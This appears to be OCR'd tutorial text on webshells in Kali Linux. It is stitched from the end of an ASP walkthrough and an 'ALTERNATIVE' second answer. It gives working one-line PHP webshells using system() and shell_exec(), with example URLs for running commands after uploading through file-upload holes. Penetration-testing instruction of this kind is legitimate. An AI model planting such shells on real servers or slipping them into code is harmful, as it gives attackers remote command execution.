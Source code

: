 2. **Upload and Access**:
   Similar to the PHP example, upload it to a vulnerable ASP server and access it:

   ```
   http://target.com/webshell.asp?cmd=dir
   ```

3. **Output**:
   The output will display the result of the `dir` command.

### Conclusion

Webshells provide a powerful method for interacting with web servers, but they can pose significant security risks if not secured properly. Always ensure you have permission to test any web application to maintain ethical standards.



                         ALTERNATIVE
  ## Webshells in Kali Linux

Webshells are scripts that can be uploaded to a web server to allow remote access and control over the server. They are often used by penetration testers and ethical hackers to test the security of web applications.

### How to Use Webshells

1. **Upload the Webshell**:
   - The first step is to upload a webshell file (e.g., a PHP or ASP script) to a vulnerable web server. This can often be done through file upload vulnerabilities.

2. **Access the Webshell**:
   - Once uploaded, the webshell can be accessed via a web browser. For example, if you uploaded a PHP webshell named `shell.php` to `http://example.com/uploads/`, you would navigate to `http://example.com/uploads/shell.php`.

### Example Webshells

1. **Simple PHP Webshell**:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   - This script allows you to execute commands on the server by passing commands as a GET parameter. For example:
     ```
     http://example.com/uploads/shell.php?cmd=ls
     ```

2. **More Advanced PHP Webshell**:
   ```php
   <?php
   if(isset($_REQUEST['cmd'])) {
       echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   }
   ?>
   ```
   - This version displays command output in a more readable format.
